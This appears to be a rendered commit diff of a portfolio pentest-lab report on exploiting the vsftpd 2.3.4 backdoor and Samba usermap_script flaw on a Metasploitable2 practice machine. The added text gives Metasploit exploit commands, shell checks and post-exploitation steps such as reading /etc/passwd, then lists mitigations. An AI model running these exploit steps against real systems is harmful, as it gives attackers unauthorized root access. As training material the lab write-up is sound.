

Before and after one commit to engraham/Eric_Graham-Portfolio, a Markdown page: Pentest-Labs/metasploitable2_vsftpd-samba.md, the part around one of its changes. Shown at 98% size. GitHub-like rendering; blank space fills up the shorter version; grey boxes are pictures that could not be loaded.

````diff
--- a/Pentest-Labs/metasploitable2_vsftpd-samba.md
+++ b/Pentest-Labs/metasploitable2_vsftpd-samba.md
@@ -162,28 +175,49 @@ nc -v <target-ip> 6200
 
-* [Metasploitable2 Official Documentation](https://sourceforge.net/projects/metasploitable/)
-* [CVE-2011-2523 - vsftpd 2.3.4 Backdoor](https://www.cvedetails.com/cve/CVE-2011-2523/)
+```bash
+use exploit/multi/samba/usermap_script
+set RHOSTS <target-ip>
+exploit
+```
+
+5️⃣ Verified shell access:
+
+```bash
+whoami
+ls
+```
+
+![Samba Exploit Shell](screenshots/msf_usermap_script_root.png)
+*Figure 6: Shell confirmed with root privileges.*
+
+---
+
+## 🔓 Post-Exploitation
+
+After gaining root-level shells on both services:
+
+* Verified privileges (`whoami`, `id`).
+* Listed files and directories.
+* Confirmed ability to run arbitrary commands.
+* Would pivot to enumerate users, check `/etc/passwd`, search for sensitive configs (`*.conf`), and test lateral movement if this were a real engagement.
+
+---
+
+## ✅ Mitigations & Recommendations
+
+* **vsftpd:** Remove version 2.3.4 and install the latest trusted release.
+* **Samba:** Patch to a secure version; disable unnecessary Samba shares.
+* Enforce least privilege for services.
+* Use firewalls to limit service exposure.
+* Monitor network traffic for unusual ports and connections.
+
+---
+
+## 📚 References
+
+* [Metasploitable2](https://sourceforge.net/projects/metasploitable/)
+* [vsftpd 2.3.4 Backdoor (CVE-2011-2523)](https://www.cvedetails.com/cve/CVE-2011-2523/)
 * [Metasploit Samba Exploit](https://www.rapid7.com/db/modules/exploit/multi/samba/usermap_script/)
 
 ---
 
-## Screenshots
-
-![Nmap Scan](screenshots/nmap_scan.png)
-*Figure 1: Nmap scan results*
-
-![vsftpd Backdoor Shell](screenshots/vsftpd_shell.png)
-*Figure 2: vsftpd backdoor shell*
-
-![Meterpreter Session](screenshots/meterpreter_session.png)
-*Figure 3: Samba exploit Meterpreter session*
-
----
-
-*End of Report*
-
-```
-
----
-
-Would you like me to help generate specific sections with real example outputs or help you embed screenshots?
-```
+**End of Report**
````
Also changed, not shown: other parts of Pentest-Labs/metasploitable2_vsftpd-samba.md (+99 -86 lines).
